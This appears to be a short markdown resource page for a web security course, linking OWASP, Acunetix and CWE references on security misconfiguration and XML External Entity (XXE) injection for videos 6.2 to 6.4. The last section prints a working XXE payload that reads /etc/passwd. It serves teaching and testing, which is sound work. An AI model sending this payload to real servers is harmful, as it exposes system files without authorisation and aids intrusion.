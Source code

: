 # Video 6.2

* [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

# Video 6.4

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```
